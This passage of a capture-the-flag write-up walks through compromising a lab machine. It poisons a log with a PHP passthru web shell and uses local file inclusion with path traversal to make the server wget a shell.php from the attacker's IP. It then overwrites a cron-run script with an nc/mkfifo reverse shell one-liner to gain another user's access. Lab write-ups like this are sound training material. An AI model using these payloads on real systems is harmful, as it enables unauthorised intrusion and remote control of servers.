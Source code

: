     <p id="desc" style="font-size:15px"><? passthru($_GET[cmd]) ?></p>


we could pass commands as an argument through ```cmd``` and successfully execute them.

<img id="image4" />

I though of a plan to download a reverse shell onto the server by utilizing the "cmd" argument. The command was structured as follows: 

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=wget%20%20http://10.17.3.217:8000/shell.php
```
!!! note 
    I had a local Python HTTP server beforehand.

<img id="image5" />

- [x] Flag 1: Hostname
- [x] Flag 2: Exploiting LFI
- [x] Flag 3: Initial Access
- [ ] Flag 4: User Flag
- [ ] Flag 5: Root Flag

Subsequently, I accessed 

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/shell.php
```
which enabled me to gain initial access. Using this access, I successfully located the flag-3 at "/home/archangel/user.txt"

<img id="image6" />

## <b>Privilege Escalation</b>

### <b>Gaining User access (Horizontal)</b>

Afterwards, I was able to escalate my privileges horizontally for the user ``archangel``. By running the ``linpeas.sh`` script, I discovered that there was a cron job running with the following configuration:

```sh
*/1 * * * * archangel /opt/helloworld.sh
```

This presented an opportunity to execute a reverse shell. To do so, I modified the code within the `helloworld.sh` file to include the following command:

!!! Bug "Reverse Shell Command"
    <span>echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.3.217 5433" > /opt/helloworld.sh</span>

As a result of this change, I was able to successfully execute a reverse shell and obtain the flag-4 located at 
~/secret/user2.txt
